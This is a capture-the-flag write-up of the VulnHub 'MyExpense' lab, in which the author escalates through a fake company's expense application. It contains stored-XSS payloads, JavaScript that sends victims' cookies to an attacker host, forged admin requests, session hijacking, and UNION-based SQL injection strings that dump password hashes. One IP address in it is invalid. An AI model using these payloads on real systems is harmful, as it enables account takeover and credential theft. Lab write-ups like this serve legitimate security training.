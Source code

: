# MyExpense

- **Target Machine - MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)

---

## Scenario

You are **Samuel Lamotte**, and you’ve just been fired from your company **Furtura Business Informatique**. Unfortunately, due to the abrupt departure, you didn’t have the chance to validate the expense report from your last business trip, totaling €750 — the cost of a round-trip flight with your last client.
Fearing your former employer might refuse to reimburse you, you decide to hack into the internal application called **"MyExpense"**, used by the company to manage employee expense reports.
 
You are currently parked outside the company building, connected to the internal Wi-Fi network (the password hasn’t been changed since your departure). The application is protected by a login form with username and password authentication. You hope your credentials still work.

Known credentials:  
`slamotte:fzghn4lw`

Once the challenge is completed successfully, the flag will appear within the application while logged in as **Samuel**.

---

## 1. Discovery and Initial Enumeration

### Network Discovery and IP Identification

Discovered the machine’s IP: `192.168.56.101`

```bash
arp-scan -I enp0s8 --localnet --ignoredups
````

### Full Port Scan

Once the IP was known, a full port scan was performed:

```bash
nmap -sS -Pn -n -p- --min-rate --open 5000 192.168.56.101 -oG ./nmap/allports
```

![Nmap All Ports](images/Pasted%20image%2020250719171605.png)

Since the challenge context mentions a web application, focus was directed to port 80.

### Service Enumeration

```bash
nmap -sCV -p80 -Pn -n 192.168.56.101 -oN ./nmap/recon
```

![Nmap Recon](images/Pasted%20image%2020250719172052.png)

The scan revealed valuable insights, such as the presence of an `/admin/` directory. Additionally, it showed the absence of the `HttpOnly` flag, which may leave the application vulnerable to cookie theft.

---

### Accessing Admin Interface

Accessing the directory `http://192.168.56.101/admin/admin.php` revealed a list of active and inactive users. Our user `slamotte` appears as **inactive**.

![Admin Interface](images/Pasted%20image%2020250719172553.png)

---

## 2. Exploitation - Account Creation and Stored XSS

It was found that the **signup button** could be bypassed to create new users even when it appeared disabled.

![Signup Form](images/Pasted%20image%2020250719173049.png)

Upon discovering this, an attempt was made to inject a basic XSS payload into the `firstname` and `lastname` fields. It was successful:

```javascript
<script>alert("XSS")</script>
```

Returning to `http://192.168.56.101/admin/admin.php`, the alert was triggered:

![XSS Triggered](images/Pasted%20image%2020250719173537.png)

---

### Cookie Theft Attempt

Attempted to steal cookies by injecting a malicious script in the form:

```javascript
<script src="http://192.168.56.102/robcookies.js">

	var request = new XMLHttpRequest();
	request.open('GET','http://10.0.2.15/?cookie=' + document.cookie );
	request.send();

</script>
```

Successfully captured the admin (`rmasson`) cookies. However, session hijacking failed due to a restriction: only **one session per user** is allowed simultaneously.

---

### Forced Admin Action via XSS

The admin user (`rmasson`) actively monitors new user registrations. Knowing this, an XSS payload was crafted to **force the admin to reactivate** the `slamotte` account via a crafted request:

```javascript
<script src="http://192.168.56.102/script.js"></script>
```

The hosted script contained:

```javascript
var domain = " http://192.168.56.101/admin/admin.php?id=11&status=active";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();
```

Started the listener:

```bash
python -m http.server 80
```

![Listener Started](images/Pasted%20image%2020250719180209.png)

---

## 3. Access Recovered and Expense Submitted

Successfully logged into the **slamotte** account. The €750 expense was still pending and was submitted:

![Expense Submitted](images/Pasted%20image%2020250719180743.png)

---

## 4. XSS in Internal Chat & Session Hijacking

The platform includes a chat feature with messages from both the **Manager (Manon Riviere)** and the **Finance Approver**.

![Chat Feature](images/Pasted%20image%2020250719181214.png)

Suspecting the chat might be vulnerable to XSS, the following script was injected:

```javascript
<script src="http://192.268.56.102:4749/robcookies.js"></script>
```

Script content:

```javascript
var request = new XMLHttpRequest();
request.open('GET','http://192.268.56.102:4444/?cookie=' + document.cookie);
request.send();
```

Cookies from chat users were successfully exfiltrated:

![Cookies Exfiltrated](images/Pasted%20image%2020250719183341.png)

Switched session to the **manager (Manon Riviere)** using the cookie:
`6tqplpcj4n4dl43kig1dipdc32`

![Manager Session](images/Pasted%20image%2020250719183914.png)

With manager access, approved the previously submitted expense:

![Expense Approved](images/Pasted%20image%2020250719184016.png)

---

## 5. SQL Injection - Extracting Credentials

While browsing the **Rennes** section, it was found that the parameter `?id=` was vulnerable to SQL Injection.

Confirmed with:

```http
http://192.168.56.101/site.php?id=2 order by 2 -- -
```

![SQL Order By](images/Pasted%20image%2020250719184415.png)

Extracted the database name using:

```http
http://192.168.56.101/site.php?id=2 union select 1,database()-- -
```

![Database Extracted](images/Pasted%20image%2020250719184739.png)

Listed all tables:

```http
http://192.168.56.101/site.php?id=2 union select 1,table_name from information_schema.tables where table_schema='myexpense'-- -
```

![Tables Listed](images/Pasted%20image%2020250719185243.png)

Targeted the `user` table and listed its columns:

```http
http://192.168.56.101/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```

![Columns Listed](images/Pasted%20image%2020250719185605.png)

Finally, dumped usernames and password hashes:

```http
http://192.168.56.101/site.php?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```

![Hashes Dumped](images/Pasted%20image%2020250719185939.png)

Used **hashes.com** to crack the hashes online.

The relevant user was: `pbaudouin`
Recovered password in plaintext: `HackMe`

![Password Cracked](images/Pasted%20image%2020250719190204.png)

---

## 6. Final Step – Expense Fully Approved

Logged in as `pbaudouin`, found the pending expense and approved it:

![Final Approval](images/Pasted%20image%2020250719190514.png)

Finally, logged back in as `slamotte` to confirm that the €750 reimbursement was approved and completed:

![Challenge Completed](images/Pasted%20image%2020250719190657.png)

✅ Challenge successfully completed.

```
